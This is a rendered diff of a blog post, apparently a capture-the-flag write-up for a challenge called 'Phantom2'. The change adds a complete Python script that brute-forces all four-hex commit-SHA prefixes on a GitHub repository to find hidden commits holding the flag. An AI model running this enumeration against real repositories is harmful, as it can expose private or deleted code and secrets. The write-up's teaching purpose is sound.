

Before and after one commit to 02loveslollipop/02labs, a Markdown page: blog/phantom_2/index.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
feat(blog): enhance Phantom2 writeup with detailed analysis of private fork exploitation and recovery methods

````diff
--- a/blog/phantom_2/index.md
+++ b/blog/phantom_2/index.md
@@ -36,7 +63,80 @@ We can search prefixes of 4 hex characters, which means our search space is $16^
 
 ## Solution
 
-The solution we executed was to brute-force search for the commit containing the flag. We used the `search/commits` endpoint to search for commits in the repository and filtered results by SHA prefix.
+The solution we executed was to brute-force search for the commit containing the flag. We used the GitHub commit patch endpoint on the standard Github URL, the solver iterated over the possible 4-hex prefixes and checked the responses to identify which prefixes corresponded to existing commits in the repository.
+
+```python
+from __future__ import annotations
+
+import time
+from urllib import error, request
+
+REPO = "tamuctf/phantom2"
+PREFIX_LENGTH = 4
+DELAY = 0.05
+TIMEOUT = 15
+RETRIES = 5
+BACKOFF = 0.5
+
+RETRYABLE = {429, 500, 502, 503, 504}
+HEADERS = {
+    "User-Agent": "phantom2-scan",
+    "Accept": "text/plain, */*",
+}
+
+
+def probe(url: str) -> int:
+    attempt = 0
+    while True:
+        req = request.Request(url, headers=HEADERS)
+        try:
+            with request.urlopen(req, timeout=TIMEOUT) as resp:
+                return resp.getcode()
+        except error.HTTPError as exc:
+            if exc.code in RETRYABLE and attempt < RETRIES:
+                time.sleep(BACKOFF * (2**attempt))
+                attempt += 1
+                continue
+            return exc.code
+        except Exception as exc:  # noqa: BLE001
+            if attempt < RETRIES:
+                time.sleep(BACKOFF * (2**attempt))
+                attempt += 1
+                continue
+            print(f"error {url} {exc}", flush=True)
+            return 0
+
+
+def main() -> None:
+    total = 16**PREFIX_LENGTH
+    hits: list[str] = []
+
+    print(f"starting repo={REPO} total={total}", flush=True)
+
+    for index in range(total):
+        prefix = f"{index:0{PREFIX_LENGTH}x}"
+        url = f"https://github.com/{REPO}/commit/{prefix}.patch"
+        status = probe(url)
+
+        if status == 200:
+            hits.append(prefix)
+            print(f"hit {prefix}", flush=True)
+
+        if (index + 1) % 100 == 0:
+            print(f"progress {index + 1}/{total} hits={len(hits)}", flush=True)
+
+        time.sleep(DELAY)
+
+    print("done", flush=True)
+    print("hits:", " ".join(hits), flush=True)
+
+
+if __name__ == "__main__":
+    main()
+
+```
+
+> Note: The use of `urllib` instead of `requests` was a deliberate choice as the solver only had to handle simple `HTTP GET` requests without any meaningful header/cookie management and the only responses of interest was the status code, which made `urllib` a lightweight and sufficient choice for this task.
 
 After iterating through the possible prefixes, we found the following commits:
 
````
Also changed, not shown: other parts of blog/phantom_2/index.md (+33 -6 lines), 1 other file.
